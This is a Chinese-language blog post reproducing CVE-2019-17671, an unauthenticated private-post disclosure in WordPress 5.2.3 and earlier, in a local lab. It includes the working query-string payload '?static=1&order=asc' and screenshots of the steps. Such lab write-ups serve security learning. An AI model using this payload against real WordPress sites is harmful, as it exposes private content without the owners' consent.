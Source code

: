 ```yaml
---
title:  Wordpress未授权访问漏洞复现(CVE-2019-17671)
date: 2019-11-4 10:23:13
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - Wordpress
    - CVE-2019-17671
    - 漏洞复现
    - 未授权访问
---
```

# 0x00 漏洞概述

wordpress 爆出最新的查看未经身份验证的文章漏洞，
该漏洞源于程序没有正确处理静态查询，
攻击者可利用该漏洞未经认证查看部分内容。

# 0x01 影响版本

**WordPress <= 5.2.3**

# 0x02 漏洞复现
## 环境搭建

本地搭建 WordPress 5.2.3 版本

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191104110719.png)

登陆后台新建私密页面

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191104110946.png)

随便填入内容，选择私密，发布
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191104111053.png)

访问前台页面，退出登陆，模拟外部访问

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191104111225.png)

## 漏洞利用

直接访问，查看不了私密文章

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191104111440.png)

输入`payload`访问，即可未授权访问所有文章

`url+/?static=1&order=asc`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191104111641.png)

# 参考文章
[wordpress 查看未经身份验证的文章(CVE-2019-17671) - Knownsec Seebug Vulnerability Platform](https://www.seebug.org/vuldb/ssvid-98098)
[CVE-2019-17671：Wordpress未授权访问漏洞复现](https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247483931&idx=1&sn=44723857a94560c9c6058a06cec4faa7)